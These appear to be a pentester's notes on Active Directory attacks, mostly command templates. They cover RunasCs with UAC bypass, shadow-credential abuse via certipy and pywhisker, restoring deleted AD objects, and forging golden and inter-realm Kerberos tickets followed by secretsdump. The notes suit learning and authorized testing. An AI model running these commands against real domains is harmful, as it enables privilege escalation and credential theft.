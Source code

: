 **Changing Users**
- If only one of our users can remote into the system, but we want to operate as another user, we can use [RunasCs](https://github.com/antonioCoco/RunasCs)
- This is built on top of the base `runas.exe` and handles much better
  - `RunasCs.exe {username} {password} {cmd} -d {domain} -r {host:port} `
    - Also has `--bypass-uac`
- Compiled executable in releases zip: [https://github.com/antonioCoco/RunasCs/releases/tag/v1.5](https://github.com/antonioCoco/RunasCs/releases/tag/v1.5)

**Shadow Credentials**
- Seems certipy is the go-to here: `certipy shadow -u "{user}@{domain}" -p {password} -dc-ip {dc_ip} -account '{target_user}' auto`
- If we have GenericWrite over a user from a group
  - If we need to add ourselves or a user to the group first via GenericAll, we can use `net` on kali
  	- `net rpc group addmem '{target_group}' {user_to_add} -U '{domain}/{owned_user}%{password} -S '{dc_fqdn}'`
      - This has sometimes failed for me in the past, so we can also use `bloodyAD`
        - `bloodyAD --host '{ip}' -d '{domain}' -u {user} -p '{password}' add groupMember {group} {user_to_add}`
  - We can then use [pywhisker](https://github.com/ShutdownRepo/pywhisker) to add shadow credentials to the user
	- `pywhisker -d "{domain}" -u "{owned_user}" -p "{owned_user_password}" --target "{target_user}" --action "add" --dc-ip {dc-ip} -f {filename} --pfx-password '{pfx_file_password}'`
	- This gives us a pfx file for the user and a password for the pfx file
  - Then, we use the pfx file with [gettgtpkinit](https://github.com/dirkjanm/PKINITtools) to get a ccache kerberos TGT
	- `gettgtpkinit.py -cert-pfx {pfx_file} "{domain}/{target_user}" {user}.ccache -pfx-pass '{pfx_pass}' -dc-ip {dc_ip}`
	- We could also use certipy, which gives us the user's NTLM hash as well
	  - `certipy auth -pfx {pfx_file} -dc-ip {dc-ip} -domain {domain_name} -username {target_user}`
	  	- Add `-no-save` if we don't want the ccache file

- **Finding Deleted Objects**
  - Sometimes there can be interesting AD objects that have been deleted which we can use
  - `Get-ADObject -Filter 'isDeleted -eq $true' -IncludeDeletedObjects` to list deleted objects
    - This will list objects deleted in chronological order, so we can restore the same deleted objects multiple times
    - If we've imported PowerView, this will fail due to having a different `Get-ADObject`
  - We can then restore the object with `Restore-ADObject -Identity "{object_GUID}"`
    - We can undo this with `Remove-ADObject -Identity "{object_GUID}" -Recursive -Confirm:$false`

**Abusing Domain Trusts**
- Remember here that since we're using kerberos we have to use DNS instead of IPs
- Gettind SIDs
	- Domain SIDs are often needed for tickets, so we use impacket's `lookupsid.py`
		- `lookupsid.py -domain-sids {domain_user_domain}/{domain_user}:{password}@{target_dc_IP} 0`
- Golden ticket using child domain
  - If a parent domain trusts us as a child domain, we can use this to create a golden ticket with SIDs in the ticket's Privilege Attribute Certificate (PAC)
  - `ticketer.py` can use `krbtgt`'s nthash to create a golden ticket
    - `ticketer.py -nthash {child_krbtgt_nthash} -domain {child_domain} -domain-sid {child_domain_sid} -extra-sid {parent_domain_sid}-519 fakeuser`
      - To get the parent domain's sid, we can use `Get-ADDomain -Identity {domain_name}`
      - To use the ticket, we may need to save it with `export KRB5CCName={path_to_ticket}`, but I think impacket will recognize it in our directory for the specified user
    - We can then use the ticket to `secretsdump` or `psexec`
      - `secretsdump.py -k -no-pass {child_domain}/fakeuser@{parent_domain_machine_name}`
	  - This works because we've forged a TGT that was valid for our child domain with the parent domain listed as an additional SID on the ticket, we can directly authenticate and access resources
- Forging inter-realm TGT and getting a service ticket
  - We can also extract the trust key and use it to create our own TGT
  - `ticketer.py -nthash {DOMAIN$_NTLM_trust_hash} -domain {child_domain} -domain-sid {child_domain_sid} -extra-sid {parent_domain_sid}-519 -spn krbtgt/{parent_domain_name} fakeuser`
	- The domain NTLM trust hash will look like `SEVENKINGDOMS$:1104:{hash}:::`
	- Then, export the ticket to be used for kerberos auth with `export KRB5CCName={path_to_ticket}`